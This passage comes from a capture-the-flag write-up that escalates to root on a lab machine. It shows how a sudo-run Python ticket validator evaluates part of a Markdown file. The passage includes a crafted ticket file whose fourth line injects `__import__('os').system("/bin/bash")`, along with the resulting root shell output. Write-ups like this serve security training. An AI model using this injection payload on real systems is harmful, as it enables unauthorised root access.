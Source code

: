 First the script calls `load_file` which is defined earlier. All this does is check if the file ends with `.md` and exits if it doesn't. Next `evalute` is called which has multiple checks in it. Basically it goes through it line by line and has a new check for each line. After going through the code we can break down how our file needs to look.
-	First line starts with `# Skytrain Inc`
-	Second line starts with `## Ticket to` and needs another space followed by something arbitratry.
-	Third line starts with `__Ticket Code:__`
-	Fourth line has to start with `**` there also has to be a `+` in it, where the part before it get's parsed by `int()` to a number that results in 4 if taken mod 7. The rest of this line needs to be that code which we want to get evaluated.

A possible way to achive root from here is to just import os with the `__import__()` function and then call bash with `system`.

`root.md`
```php
development@bountyhunter:~$ cat root.md
# Skytrain Inc
## Ticket to what
__Ticket Code:__
**4+__import__('os').system("/bin/bash")
```

With everything prepared, running the script with sudo and specifying our file, we dropp into a root shell and are able to read the flag.

```php
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/home/development/root.md
Destination: what
root@bountyhunter:/home/development# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhunter:/home/development# wc -c /root/root.txt
33 /root/root.txt
```